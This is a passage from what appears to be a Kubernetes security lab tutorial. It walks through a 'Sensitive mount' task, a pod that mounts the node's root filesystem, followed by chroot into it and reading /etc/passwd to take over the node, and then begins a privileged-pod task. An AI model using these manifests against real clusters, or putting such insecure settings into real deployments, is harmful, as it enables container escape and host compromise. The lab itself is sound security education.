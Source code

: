 You can experiment with different target values of autoscaling to see how it
behaves with the load.

Now you've successfully finished the task: **Autoscaling**

## Task: Sensitive mount

The following yaml file mounts the Node's root filesystem under /hostmounts. Save the file as `sensitive-mount.yaml` and run it using `kubectl apply -f sensitive-mount.yaml`:

```
apiVersion: v1
kind: Pod
metadata:
  name: sensitive-mount
  namespace: default
spec:
  containers:
  - image: bash:5.1.16
    name: sensitive-mount
    command:
      - /bin/sh
      - "-c"
      - "sleep 60m"
    volumeMounts:
    - mountPath: /hostmounts
      name: hostvol
  restartPolicy: Never
  volumes:
    - name: hostvol
      hostPath:
        path: /
```

When you open an interactive shell to the pod using `kubectl exec -it  --stdin sensitive-mount  -- bash` you can find the Node's filesystem under /hostmounts. You can take over the Node simply by switching to it's namespace by running `chroot /hostmounts`. You can verify this for example by running `cat /etc/passwd` and seeing the user `ec2-user` that is the default user of an AWS EC2 Linux instance.

Now you've successfully finished the task: **Sensitive mount**

## Task: Privileged pod

Running a pod in a privileged mode means that the pod can access the host’s resources and kernel capabilities. The following YAML will set up a privileged pod:

```
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - image: bash:5.1.16
    name: privileged-pod
    command:
      - /bin/sh
      - "-c"
      - "sleep 60m"
    securityContext:
      privileged: true
      runAsUser: 999
```
